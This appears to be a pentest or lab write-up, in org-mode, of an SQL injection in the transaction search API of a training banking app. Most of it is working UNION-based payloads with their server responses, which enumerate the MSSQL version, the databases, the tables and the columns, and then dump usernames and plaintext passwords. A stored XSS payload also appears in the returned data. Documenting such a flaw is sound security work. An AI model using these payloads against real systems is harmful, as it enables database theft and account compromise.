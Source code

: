 #+title: sql injection at Transactions page
#+author: gabriel

The Transactions page contain a form to search transaction id value. This form is vulnerable because  user input interact direct with the sql query at database, allow attackers to exploit and get personal data, which is a critical vulnerability and high level impact.

*Vulnerable url+parameter ->*
#+begin_src sh
GET /api/Transaction/GetTransactions?start=0&length=10&search%5Bvalue%5D='&search%5Bregex%5D=false&_=1757371269519 HTTP/1.1
Host: localhost:1337
sec-ch-ua-platform: "Linux"
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:1337/Transaction
Accept-Encoding: gzip, deflate, br
Cookie: SessionId=YmllbEBtYWlsLmNvbQ%3D%3D%268f2e4c92d91baf589d8d05388989ba463ff1ab390ee7e6d5c6e4b188c1c92e50%260
Connection: keep-alive

#+end_src

* PoC

The searchValue parameter return an error with single cote ', with null return som JSON amount of data(security issue too?)

After test more requests with the searchValue parameter, is possible to identify different responses from the server when we put 2 single cotes at parameter ->

#+begin_src shell
/api/Transaction/GetTransactions?start=0&length=10&search%5Bvalue%5D=''
#+end_src

*Response ->*
#+begin_src sh
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 08 Sep 2025 22:59:52 GMT
Server: Kestrel
Content-Length: 48

{"recordsTotal":0,
 "recordsFiltered":0,
 "data":[]}
#+end_src

Which means this is really vulnerable to SQL Manipulation.

https://tib3rius.com/sqli -> very usefull cheatsheet to SQL payloads

With a more complex payload, but still a simple payload we can extract a lot of data, user data from the database, and the ports now are open to really more complex paylod's.

Initial PAyload ->
#+begin_src sh
'UNION SELECT * FROM Transactions --
#+end_src

#+begin_src sh
/api/Transaction/GetTransactions?start=0&length=10&search%5Bvalue%5D='UNION SELECT * FROM Transactions --
#+end_src

Encode with URL Encode (CTRL + U at Burp or using the ~Inspector tab~)

*Extraction ->*
#+begin_src sh
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 08 Sep 2025 23:15:49 GMT
Server: Kestrel
Content-Length: 2370

{"recordsTotal":48,
"recordsFiltered":48,
"data":[{"id":38,"senderId":"admin@hexdump.sh",
"receiverId":"admin@hexdump.sh","dateTime":"02/21/2222","reason":"1","amount":1,"reference":"1","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null},{"id":47,"senderId":"biel@mail.com","receiverId":"biel@email.com","dateTime":"10/12/2025","reason":"<script src=x onerror=\"alert(document.domain)\"/>","amount":1,"reference":null,"senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null}
#+end_src

The length parameter are set with value 10, just change it to higher value and get more and more data ->

Change the *length* to 40 ->
#+begin_src sh
/api/Transaction/GetTransactions?start=0&length=40&search%5Bvalue%5D='UNION%20SELECT%20*%20FROM%20Transactions%20--
#+end_src

* Different payloads to show compromise

Response to view ->
#+begin_src sh
{"recordsTotal":48,
"recordsFiltered":48,
"data":[{"id":38,
"senderId":"admin@hexdump.sh",
"receiverId":"admin@hexdump.sh",
"dateTime":"02/21/2222",
"reason":"1",
"amount":1,
"reference":"1",
"senderName":null,
"senderSurname":null,
"receiverName":null,
"receiverSurname":null}]}
#+end_src

Payload based on first leakout response, relating the fields with values with the same type, str or int ->
#+begin_src sh request
'UNION SELECT 42,'second','third','01/01/2025','fourth',1337,'1' --
#+end_src

*Request*
#+begin_src sh request
/api/Transaction/GetTransactions?start=0&length=30&search%5Bvalue%5D='UNION%20SELECT%2042%2c'second'%2c'third'%2c'01%2f01%2f2025'%2c'fourth'%2c1337%2c'1'%20--
#+end_src

*Reponse*
#+begin_src sh response
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 08 Sep 2025 23:31:08 GMT
Server: Kestrel
Content-Length: 1001

{"recordsTotal":4,
"recordsFiltered":4,
"data":
[{"id":47,
"senderId":"biel@mail.com",
"receiverId":"biel@email.com",
"dateTime":"10/12/2025",
"reason":"<script src=x onerror=\"alert(document.domain)\"/>",
"amount":1,
"reference":null,
"senderName":null,
"senderSurname":null,
"receiverName":null,
"receiverSurname":null},
#+end_src

Get the database Version ->
#+begin_src sh
'UNION SELECT 40,@@VERSION,'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Request ->*
#+begin_src sh
/api/Transaction/GetTransactions?search%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&start=0&length=10&search%5Bvalue%5D='UNION%20SELECT%2040%2c%40%40VERSION%2c'THIRD'%2c'01%2f01%2f2025'%2c'four'%2c1337%2c'2'%20--&
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"Microsoft SQL Server 2022 (RTM-CU20-GDR) (KB5063814) - 16.0.4210.1 (X64) \n\tJul 11 2025 13:04:02 \n\tCopyright (C) 2022 Microsoft Corporation\n\tDeveloper Edition (64-bit) on Linux (Ubuntu 22.04.5 LTS) <X64>","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":nul
#+end_src

Extract all the databases of the database ->
complex payload ?
#+begin_src sh
'UNION SELECT 40,(SELECT name + ',' FROM sys.databases FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"master,tempdb,model,msdb,store,securebank,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src

Get all the tables of some database ->

#+begin_src sh
'UNION SELECT 40,(SELECT name + ',' FROM securebank..sysobjects WHERE xtype='U' FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"Sessions,Transactions,TransactionsGroupedByDay,UserData,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src

Extract list of columns of table UserData ->
#+begin_src sh
'UNION SELECT 40,(SELECT column_name + ',' FROM information_schema.columns WHERE table_name='UserData' FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"Id,UserName,Name,Surname,Password,Role,Confirmed,RecoveryGuid,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src


Extract list of rows of table UserData ->
#+begin_src sh
'UNION SELECT 40,(SELECT UserName,Password + ',' FROM UserData FOR XML PATH('')),'THIRD','01/01/2025','four',1337,'2' --
#+end_src

*Response ->*
#+begin_src sh
"id":40,"senderId":"<UserName>developer@hexdump.sh</UserName>test1,<UserName>yoda@hexdump.sh</UserName>test1,<UserName>carson.alexander@hexdump.sh</UserName>test1,<UserName>merdith.alonso@hexdump.sh</UserName>test1,<UserName>arturo.anad@hexdump.sh</UserName>test1,<UserName>gytis.barzdukas@hexdump.sh</UserName>test1,<UserName>yan.li@hexdump.sh</UserName>test1,<UserName>peggy.justice@hexdump.sh</UserName>test1,<UserName>laura.norman@hexdump.sh</UserName>test1,<UserName>nino.olivetto@hexdump.sh</UserName>test1,<UserName>electricity@hexdump.sh</UserName>test1,<UserName>water@hexdump.sh</UserName>test1,<UserName>internet@hexdump.sh</UserName>test1,<UserName>gas@hexdump.sh</UserName>test1,<UserName>groceries@hexdump.sh</UserName>test1,<UserName>janeznovak@hexdump.sh</UserName>test1,<UserName>tester@hexdump.sh</UserName>test1,<UserName>credit@securebank.com</UserName>test1,<UserName>admin@hexdump.sh</UserName>admin,<UserName>test@email.com</UserName>testes1,<UserName>leo@mail.com</UserName>testes1,<UserName>biel@mail.com</UserName>password,<UserName>luana@mail.com</UserName>password,<UserName>lio@email.com</UserName>password,","receiverId":"THIRD","dateTime":"01/01/2025","reason":"four","amount":1337,"reference":"2","senderName":null,"senderSurname":null,"receiverName":null,"receiverSurname":null
#+end_src

 * Clear text passwords, critical security issue !!


* All parameters: TODO Replace all the "&" with new line to pretty view
?draw=7&columns%5B0%5D%5Bdata%5D=senderId&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=false&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=receiverId&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=false&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=dateTime&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=false&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=amount&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=false&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B4%5D%5Bdata%5D=reason&columns%5B4%5D%5Bname%5D=&columns%5B4%5D%5Bsearchable%5D=true&columns%5B4%5D%5Borderable%5D=false&columns%5B4%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B4%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B5%5D%5Bdata%5D=id&columns%5B5%5D%5Bname%5D=&columns%5B5%5D%5Bsearchable%5D=true&columns%5B5%5D%5Borderable%5D=false&columns%5B5%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&start=0&length=10&search%5Bvalue%5D=%27rgfewf&search%5Bregex%5D=false&_=1757371269519

*replace-strings new line* ->
: CTRL + Q, CTRL + J

* References

https://portswigger.net/web-security/sql-injection


?draw=2
columns%5B0%5D%5Bdata%5D=senderId
columns%5B0%5D%5Bname%5D=
columns%5B0%5D%5Bsearchable%5D=true
columns%5B0%5D%5Borderable%5D=false
columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=
columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false
columns%5B1%5D%5Bdata%5D=receiverId
columns%5B1%5D%5Bname%5D=
columns%5B1%5D%5Bsearchable%5D=true
columns%5B1%5D%5Borderable%5D=false
columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=
columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false
columns%5B2%5D%5Bdata%5D=dateTime
columns%5B2%5D%5Bname%5D=
columns%5B2%5D%5Bsearchable%5D=true
columns%5B2%5D%5Borderable%5D=false
columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=
columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false
columns%5B3%5D%5Bdata%5D=amount
columns%5B3%5D%5Bname%5D=
columns%5B3%5D%5Bsearchable%5D=true
columns%5B3%5D%5Borderable%5D=false
columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=
columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false
columns%5B4%5D%5Bdata%5D=reason
columns%5B4%5D%5Bname%5D=
columns%5B4%5D%5Bsearchable%5D=true
columns%5B4%5D%5Borderable%5D=false
columns%5B4%5D%5Bsearch%5D%5Bvalue%5D=
columns%5B4%5D%5Bsearch%5D%5Bregex%5D=false
columns%5B5%5D%5Bdata%5D=id
columns%5B5%5D%5Bname%5D=
columns%5B5%5D%5Bsearchable%5D=true
columns%5B5%5D%5Borderable%5D=false
columns%5B5%5D%5Bsearch%5D%5Bvalue%5D=
columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false
start=0
length=10
search%5Bvalue%5D=%27
search%5Bregex%5D=
